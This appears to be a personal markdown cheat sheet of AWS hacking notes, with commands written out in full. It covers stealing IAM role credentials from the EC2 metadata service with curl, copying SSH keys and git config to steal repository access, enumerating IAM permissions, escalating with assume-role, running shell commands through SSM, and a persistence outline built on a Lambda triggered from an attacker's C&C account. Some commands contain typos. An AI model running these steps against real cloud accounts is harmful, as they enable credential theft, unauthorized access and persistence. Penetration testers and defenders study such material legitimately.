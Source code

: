 is:: [[group]]
of:: [[note]]
from:: [[hacking]]

# Notes
AWS hacking notes

## Stealing AWS token from metadata service
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
* Copy the role name returned
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

or
```
export ROLE_NAME=`curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/`
echo "Instance role is ${ROLE_NAME}"
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/${ROLE_NAME}/
```

### aws cli
```
aws sts get-session-token
```
won’t work if you’re already using session creds

## Finding out who you are
Pull the instance profile from metadata
```
curl  http://169.254.169.254/latest/meta-data/iam/info/
```
* Copy the InstanceProfileArn field from the result

Pull the role name from metadata
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

AWS command line
```
aws sts get-caller-identity
```

## Finding out what you have access to
Get Role. Shows trust relationships.
```
aws iam get-role --role-name ${ROLE}
```

List managed policies attached to role
```
aws iam list-attached-role-policies --role-name $ROLE
```

Get Inline Role Names
```
aws iam list-role-policies --role-name $ROLE
```

Iterate over all inline policies
```
for POLICYNAME in `aws iam list-role-policies --role-name $ROLE | jq -r '.PolicyNames[]'`; do aws iam get-role-policy --role-name $ROLE --policy-name $POLICYNAME; done
```
Retrieves the specified inline policy document that is embedded with the specified IAM role.
```
aws iam get-role-policy --role-name <value>
```
aws iam get-instance-profile —instance-profile-name <instance_profile_name>     (gets roles and policies that this instance profile has)

## Escalation (using assume role)
Pulling interesting metadata
curl  http://169.254.169.254/latest/meta-data/
curl  http://169.254.169.254/latest/user-data
curl  http://169.254.169.254/latest/dynamic/
curl  http://169.254.169.254/latest/meta-data/iam/info/
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/<instance_profile_name>

Running aws-configure
```
mkdir ~/.aws
cat <<EOF >~.awsconfig
[default]
output = json
region = us-east-1
EOF
```

## Aws CLI fun
```
aws iam get-instance-profile —instance-profile-name <instance_profile_name>
aws iam get-role —role-name jslave
aws iam list-account-aliases
aws ec2 describe-security-groups —group-names ‘Default’ —query ‘SecurityGroups[0].OwnerId’ —output text               (cheat for getting current account id)
aws iam list-roles
aws iam list-attached-role-policies —role-name <role_name>
aws iam list-role-policies —-role-name <role_name>
aws iam get-role-policy —-role-name <role_name> —policy-name <policy_name>
```

Aws CLI get current user (one of these may work)
```
aws iam get-user
aws sts get-caller-identity
```
AWS SSM Run commands
```
aws ssm send-command --instance-ids "i-0ddd4588e3ab7bd99" --document-name "AWS-RunShellScript" --comment "IP config" --parameters commands=ifconfig --output text
```

Getting account info
Get-caller-identity gives the account number. List-account-aliases gives alias.
```
aws sts get-caller-identity
aws iam list-account-aliases
```

Sign in URL
https://Your_AWS_Account_ID.signin.aws.amazon.com/console/
https://Your_Alias.signin.aws.amazon.com/console/


AWS S3 CLI

```
aws s3 ls
aws s3 ls s3://bucket/dir/
aws s3 cp s3://bucket/dir/file .
```

AWS codecommit
```
aws codecommit list-repositories —region us-east-1
```
Things to work on
```
aws sts get-session-token
```

Testing git access

```
cat ~/.gitconfig
find / | grep ‘.git/config’        (finding any local git repos)
cat ….git/config               (finding where the git repos are hosted)
git config --list
```
- there does not seem to be a way to get a list of all repos. bitbucket has an api that will list them if you have a username/password (and not just an ssh key)

Stealing git access

- copy ~gitconfig and all the files in ~.ssh

SSRF notes

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

# Assume Role
If a given role can assume other roles, this is how to switch
aws sts assume-role --role-arn "arn:aws:iam::123456789012:role/example-role" --role-session-name AWSCLI-Session

# Burp AWS Scopes
^.*\.amazonaws\.com$
^.*\.cloudfront\.net$

## Config file format
```
{
    "enabled":true,
    "host":"^.*\\.amazonaws\\.com$",
    "protocol":"any"
},
{
    "enabled":true,
    "host":"^.*\\.cloudfront\\.net$",
    "protocol":"any"
}
```

# Cloudformation
## Creating user via cloudformation
```
aws cloudformation create-stack --stack-name myuser --template-body file://user.yaml --capabilities CAPABILITY_NAMED_IAM
```

## Persistence
### Lambda
* On compromise (instance or lambda)
* Create lambda
	* Using existing role
	* Set to trigger on SNS messages from C&C in another account.
[AWS SNS to Lambda Cross Account Setup - Shogan.tech](https://www.shogan.co.uk/aws/aws-sns-to-lambda-cross-account-setup/)

# References
* [AWS - Pentest Book](https://pentestbook.six2dez.com/enumeration/cloud/aws)
* [GitHub - RhinoSecurityLabs/pacu: The AWS exploitation framework, designed for testing the security of Amazon Web Services environments.](https://github.com/RhinoSecurityLabs/pacu)
- https://github.com/DataDog/stratus-red-team - aws attack tool
